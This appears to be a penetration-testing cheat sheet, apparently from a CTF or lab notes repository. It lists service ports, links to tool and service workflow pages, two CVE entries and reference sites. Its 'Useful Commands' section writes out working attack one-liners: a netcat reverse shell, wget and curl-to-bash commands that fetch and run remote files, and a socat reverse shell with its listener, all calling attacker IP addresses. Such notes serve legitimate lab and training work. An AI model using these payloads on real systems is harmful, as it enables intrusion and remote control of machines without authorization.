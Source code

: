 # CheatSheet

## Ports
| Service | Port      |
|:-------:|:---------:|
| FTP     | 20 / 21   |
| SSH     | 22        |
| Telnet  | 23        |
| SMTP    | 25        |
| DNS     | 53        |
| HTTP    | 80        |
| POP3    | 110       |
| HTTPS   | 443       |
| SMB     | 139 / 445 |
| NFS     | 2049      |
| MySQL   | 3306      |

## Tools
- [Rustscan](tool/rustscan.md)
- [Nmap](tool/nmap.md)
- [MSFVenom](tool/msfvenom.md)
- [Gobuster](tool/gobuster.md)
- [Hydra](tool/hydra.md)
- [John the Ripper](tool/john.md)
- [Hashcat](tool/hashcat.md)
- [Netcat](tool/netcat.md)

## Workflow by service
- [SSH](service/ssh.md)
- [SMB](service/smb.md)
- [Telnet](service/telnet.md)
- [NFS](service/nfs.md)
- [FTP](service/ftp.md)
- [SMTP](service/smtp.md)
- [MySQL](service/mysql.md)

## Useful Commands
### Shell payload
```
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.4.49.251 4444 >/tmp/f" > shell.sh
```

### Download file
```
FILE=[FILE NAME]; wget http://10.4.49.251/$FILE -O /tmp/$FILE; chmod +x /tmp/$FILE; sh /tmp/$FILE
```
```
curl 10.10.14.7/[FILE] | bash
```

### LinEnum

```
wget http://10.4.49.251/LinEnum.sh -O /tmp/LinEnum.sh; chmod +x /tmp/LinEnum.sh; /tmp/LinEnum.sh
```
```
curl 10.10.14.7/LinEnum.sh | bash
```

### Socat
#### Target
```
wget http://10.4.49.251/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.4.49.251:4445
```

#### Attacker (Kali)
```
socat file:`tty`,raw,echo=0 TCP-L:4445
```

#### To upgrade more
```
export SHELL=bash; export TERM=xterm-256color; stty rows 60 columns 126
```

## CVEs
- CVE : 2014-6287 ([39161](cve/cve-2014-6287-39161.md))
- CVE : 2014-6287 ([49125](cve/cve-2014-6287-49125.md))


## Reference

Exploit DB  
https://www.exploit-db.com/

MSF Console Commands  
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

Meterpreter Commands  
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

GTFOBins  
https://gtfobins.github.io/

PayloadsAllTheThings / Reverse Shell Cheat Sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

PayloadsAllTheThings / Linux - Privilege Escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#find-suid-binaries

CrackStation  
https://crackstation.net/

Hash Analyzer  
https://www.tunnelsup.com/hash-analyzer/

CyberChef  
https://gchq.github.io/CyberChef/

Upgrading Simple Shells to Fully Interactive TTYs  
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
